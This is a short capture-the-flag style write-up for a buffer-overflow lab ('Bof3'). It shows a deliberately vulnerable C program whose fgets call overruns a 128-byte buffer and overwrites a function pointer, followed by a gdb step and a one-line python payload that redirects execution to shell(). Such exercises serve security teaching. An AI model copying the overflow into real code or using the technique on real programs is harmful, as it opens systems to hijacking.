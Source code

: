 # Bof3
### Program code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    printf("You made it! The shell() function is executed\n");
}

void sup() {
    printf("Congrat!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
>Goal: print out the text "You made it! The shell() function is executed" using *shell()*
### Solution:
1. Get the address of *shell()*:
   - Load the program into *gdb* and type `disas shell`
     
     ![](img/bof3/shell.jpg)
     
   - The first line show us the address of *shell()* which is `0x0804845b`
2. Do the attack:
   - To overflow the memory, we need to input *128 random bytes* + *4 byte address of shell()*
   - Quit *gdb* and type `echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.o`
     
     ![](img/bof3/attackbof3.jpg)
     
   - Goal achieved!
